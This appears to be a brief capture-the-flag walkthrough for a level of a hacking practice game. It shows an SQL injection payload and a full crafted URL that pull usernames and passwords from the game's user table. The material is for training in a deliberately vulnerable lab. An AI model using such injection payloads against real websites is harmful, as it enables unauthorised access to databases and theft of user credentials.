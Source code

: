 #### Level 06 - Breaking FaceSpace

Time to inject some SQL.

This SQL should get the password instead of the status:
```sql
SELECT rank,username,password as status FROM user--
```

Here is the complete url:

http://www.hacmegame.org/hacmegame/challenges/ChallengeS23.html?offset=50;select%20rank,username,password%20as%20status%20FROM%20user--

Pick a random username and its password. Complete.